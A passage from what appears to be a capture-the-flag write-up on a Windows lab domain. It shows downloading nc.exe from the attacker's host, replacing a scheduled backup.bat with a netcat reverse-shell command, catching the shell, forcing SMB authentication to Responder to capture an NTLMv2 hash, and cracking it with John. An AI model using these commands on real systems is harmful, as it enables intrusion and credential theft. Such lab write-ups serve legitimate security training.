 To achieve this, we will first upload `nc.exe` to the machine and grant permissions so that anyone can run it.

```
*Evil-WinRM* PS C:\Scripts> curl http://10.11.72.22/nc.exe -o c:\windows\system32\tasks\nc.exe
*Evil-WinRM* PS C:\Scripts> icacls C:\Windows\System32\Tasks\nc.exe /grant Everyone:F
processed file: C:\Windows\System32\Tasks\nc.exe
Successfully processed 1 files; Failed processing 0 files
```

Next, we will replace the script to execute our reverse shell payload.

```
*Evil-WinRM* PS C:\Scripts> del backup.bat
*Evil-WinRM* PS C:\Scripts> Set-Content -Path "C:\Scripts\backup.bat" -Value "C:\Windows\System32\Tasks\nc.exe 10.11.72.22 443 -e powershell"
*Evil-WinRM* PS C:\Scripts> type backup.bat
C:\Windows\System32\Tasks\nc.exe 10.11.72.22 443 -e powershell
```
{: .wrap }

After some time, we see that we have received a shell as `o.armstrong` in our listener.

```console
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.70.89] 49990
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
k2\o.armstrong
```

Using the shell, we will force authentication to our server after running `responder`, allowing us to capture the hash for the user.

```
PS C:\Windows\system32> dir \\10.11.72.22\test\
```

```console
$ sudo responder -I tun0
...
[SMB] NTLMv2-SSP Client   : 10.10.70.89
[SMB] NTLMv2-SSP Username : K2\o.armstrong
[SMB] NTLMv2-SSP Hash     : o.armstrong::K2:1122334455667788:[REDACTED]:[REDACTED]
```

By cracking the hash obtained from `responder`, we recover the user's password.

```console
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
...
ar[REDACTED]08      (o.armstrong)
...
```

